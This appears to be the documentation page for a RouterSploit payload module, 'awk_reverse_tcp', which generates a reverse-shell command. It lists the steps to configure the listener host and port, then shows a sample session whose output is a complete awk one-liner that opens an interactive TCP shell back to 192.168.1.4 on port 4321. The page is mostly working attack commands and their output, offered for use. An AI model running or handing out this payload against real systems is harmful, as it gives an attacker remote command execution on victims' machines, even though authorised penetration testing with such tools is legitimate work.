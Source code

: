 ## Description

Module generates payload that creates interactive tcp reverse shell by using awk one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/awk_reverse_tcp`
  3. Do: `set lhost 192.168.1.3`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates awk tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/awk_reverse_tcp
rsf (Awk Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Awk Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Awk Reverse TCP) > run
[*] Running module...
[*] Generating payload
awk 'BEGIN{s="/inet/tcp/0/192.168.1.4/4321";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)};'
```
